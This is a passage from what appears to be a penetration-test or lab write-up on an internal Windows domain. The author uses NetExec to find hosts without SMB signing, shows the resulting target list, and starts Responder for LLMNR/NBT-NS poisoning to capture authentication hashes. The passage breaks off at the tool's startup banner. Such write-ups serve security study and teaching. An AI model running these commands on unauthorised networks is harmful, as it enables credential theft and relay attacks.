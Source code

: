 I used NetExec (formerly CrackMapExec) to identify hosts with SMB signing not required:

```bash
nxc smb 192.168.0.0/24 --gen-relay-list smb_targets.txt
```

The results were promising - virtually all machines in the domain had SMB signing disabled:

```
SMB         192.168.0.11       445    DC-SERVER01      [*] Windows Server 2022 Build 20348 x64 (name:DC-SERVER01) (domain:CORP.local) (signing:False) (SMBv1:False)
SMB         192.168.0.10       445    APP-SERVER01     [*] Windows Server 2022 Build 20348 x64 (name:APP-SERVER01) (domain:CORP.local) (signing:False) (SMBv1:False)
SMB         192.168.0.28       445    SQL-SERVER01     [*] Windows 10 / Server 2016 Build 14393 x64 (name:SQL-SERVER01) (domain:CORP.local) (signing:False) (SMBv1:False)
```

## Setting Up for MITM Attacks

Given the SMB signing issues, the next logical step was to attempt network poisoning to intercept authentication traffic. This approach leverages how Windows systems attempt to resolve hostnames and authenticate to network resources.

### LLMNR/NBT-NS Poisoning with Responder

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are name resolution protocols used by Windows when DNS fails. These protocols are vulnerable to poisoning attacks where an attacker can respond to broadcast queries and capture authentication hashes.

I started Responder to listen for and respond to these broadcasts:

```bash
sudo responder -I eth0 -wd
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [OFF]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [OFF]
    SQL server                 [OFF]
    FTP server                 [OFF]
    IMAP server                [OFF]
    POP3 server                [OFF]
    SMTP server                [OFF]
    DNS server                 [OFF]
    LDAP server                [OFF]
    MQTT server                [OFF]
    RDP server                 [OFF]
    DCE-RPC server             [OFF]
    WinRM server               [OFF]
    SNMP server                [OFF]
```